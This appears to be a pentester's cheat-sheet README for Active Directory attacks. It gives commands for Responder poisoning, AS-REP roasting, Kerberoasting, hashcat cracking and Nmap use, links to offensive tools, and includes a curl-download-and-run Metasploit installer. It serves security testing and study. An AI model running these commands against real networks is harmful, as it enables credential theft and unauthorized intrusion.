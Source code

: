 # **ITSEC Notes**

## Poisoning and Spoofing (LLMNR NBT-NS)

Pretender
https://github.com/RedTeamPentesting/pretender

Responder
https://github.com/lgandx/Responder

Examples

``` responder -I eth0 ```

``` responder -I eth0 -A ``` Analyze mode

``` responder -I eth0 -wF ``` WPAD

``` --lm ``` Downgrade

``` responder -wrf --lm -v -I eth0 ```

## ASREProast
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

users list dynamically queried with an LDAP anonymous bind

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
``` 

users list dynamically queried with a LDAP authenticated bind (password)

```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
``` 

CrackMapExec

```
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
``` 

## Kerberoasting
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```

## Cracking
From Kerberoast output, remove * and be replace / with :

Example Kerberoast hashcat syntax:

``` 
.\hashcat64.exe -w 4 -m 13100 G:\Tools\KHash.txt G:\Tools\rockyou.txt -r G:\Tools\hashcat-5.1.0\rules\dive.rule 
```

NTLMv2 -m 5600

## Tools
https://github.com/Cerbersec/Ares

https://github.com/cddmp/enum4linux-ng

https://github.com/0xsp-SRD/mortar

https://github.com/danielbohannon/Invoke-Obfuscation

https://github.com/aas-n/spraykatz


## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

### Split a file n (100) number of lines into part1/2/etc
```
split -l 100 full part --numeric-suffixes=1
```

### Reformat usermames first.last@domain.com to last + first letter
```
while read LINE in; do
        EMAIL=`echo $LINE | awk -F\@ '{print $1}'`
        NAME=`echo $EMAIL | awk -F\. '{print $NF}'`
        CHAR1=`echo $LINE | cut -c1`
        echo ${NAME}${CHAR1}
done < emails.lst
```

### Get Ips from a file
```
egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' list | sort | uniq > ips
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list

Convert xml output to html files
&& xsltproc part1.xml -o part1.html 

```


## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Shodan
### Useful Searches
```
org:"companyname"
net:"1.1.1.0/24"
```

## Notes
Identify Domain Controller
````
nslookup  
 type set type=all 
 _Idap._tcp.dc_msdcs."Domain_Name" 
 ````


